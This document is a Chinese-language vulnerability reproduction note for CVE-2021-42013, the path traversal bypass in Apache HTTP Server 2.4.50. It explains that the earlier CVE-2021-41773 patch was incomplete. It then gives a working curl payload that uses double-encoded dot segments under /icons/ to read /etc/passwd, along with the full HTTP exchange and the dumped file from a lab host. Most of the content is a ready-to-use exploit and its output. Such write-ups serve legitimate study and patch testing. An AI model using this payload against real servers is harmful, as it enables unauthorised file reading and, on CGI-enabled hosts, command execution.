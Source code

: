 ### CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

#### 漏洞详情

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用.%%32%65进行绕过（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到/etc/passwd：

```yml
curl -v --path-as-is http://10.211.55.10:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:33:12 GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```
